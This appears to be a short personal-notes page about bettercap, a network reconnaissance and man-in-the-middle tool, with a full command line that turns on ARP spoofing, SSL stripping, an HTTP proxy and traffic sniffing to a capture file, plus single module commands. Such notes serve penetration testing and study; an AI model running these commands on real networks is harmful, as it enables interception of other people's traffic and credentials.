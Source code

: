 ```yaml
---
{"dg-publish":true,"permalink":"/bettercap/"}
---
```



**bettercap** is a versatile suite for network reconnaissance and [[Man in The Middle\|MiTM]] attacks.

It excels at ARP spoofing, DNS manipulation, HTTPS stripping, and credential interception across Wi‑Fi, Bluetooth LE, and Ethernet.

Essentially, it’s a modern Swiss Army knife for sniffing and manipulating network traffic.

- [arp.spoof](https://www.bettercap.org/modules/ethernet/spoofers/arpspoof/)
- [bettercap arp spoof - Google Search](https://www.google.com/search?q=bettercap+arp+spoof&oq=bettercap+arp+&gs_lcrp=EgZjaHJvbWUqCggBEAAYxwMYgAQyDQgAEEUYFhgeGDkYxwMyCggBEAAYxwMYgAQyCggCEAAYxwMYgAQyCAgDEAAYFhgeMgsIBBAAGBYYHhjHAzILCAUQABgWGB4YxwMyCwgGEAAYFhgeGMcDMgsIBxAAGBYYHhjHAzILCAgQABgWGB4YxwMyCAgJEAAYFhge0gEINjU0NmowajeoAgCwAgA&sourceid=chrome&ie=UTF-8)

```bash
bettercap -iface eth0 -eval "set http.proxy.sslstrip true; set net.sniff.verbose true; set net.sniff.output /root/mitm.pcap; set arp.spoof.fullduplex true; set arp.spoof.internal true; net.recon on; net.probe on; arp.spoof on; http.proxy on; net.sniff on"
```

```bash
bettercap -iface eth0
```
```
net.probe on
```

```
net.recon on
```

```bash
net.sniff on
```



